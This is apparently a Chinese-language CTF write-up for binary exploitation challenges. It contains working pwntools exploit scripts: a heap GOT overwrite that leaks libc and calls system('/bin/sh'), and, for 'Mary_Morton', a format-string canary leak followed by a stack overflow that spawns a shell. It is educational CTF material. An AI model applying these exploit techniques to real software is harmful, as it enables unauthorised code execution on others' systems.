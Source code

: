 ```python
add_user(0x80, 0x80, 'AAAA')
add_user(0x8, 0x8, '/bin/sh\x00')
delete_user(0)
add_user(0x100, 0x19c, "A" * 0x198 + p32(elf.got['free']))
display_user(1)
p.recvuntil("description: ")
free_addr = u32(p.recvn(4))
libc_base = free_addr - libc.symbols['free']
print hex(libc_base)
system_addr = libc_base + libc.symbols['system']
update_desc(1, 0x4, p32(system_addr))
delete_user(2)
p.interactive()
```

## Mary_Morton

![m0.png](https://i.loli.net/2019/08/06/xnY7aqUeOkmCWM3.png)

这一道有个canary保护，不能直接栈溢出，但是可以利用格式化字符串漏洞来泄漏canary

![m1.png](https://i.loli.net/2019/08/06/R1n82Ti6phaHQIt.png)

可以看到偏移是23

![m2.png](https://i.loli.net/2019/08/06/SohYfgJtwseTIUv.png)

```python
%23$p
```

读出canary后再覆盖到后门函数

```python
padding+canary+ebp+addr
```

就可getshell

![m3.png](https://i.loli.net/2019/08/06/3zSGjWcCILVygTn.png)

完整EXP：

```python
from pwn import *
context.log_level = 'debug'
p = process("./Mary_Morton")
system_addr = p64(0x4008de)
p.sendlineafter('3. Exit the battle \n', '2')
p.sendline('%23$p')
p.recvuntil('0x')
ss = p.recv(16)
pp = int(ss, 16)
pp = p64(pp)
p.sendline('1')
payload = 'a' * 17 * 8 + pp + 'a' * 8 + system_addr
p.sendline(payload)
p.recv()
p.interactive()
```
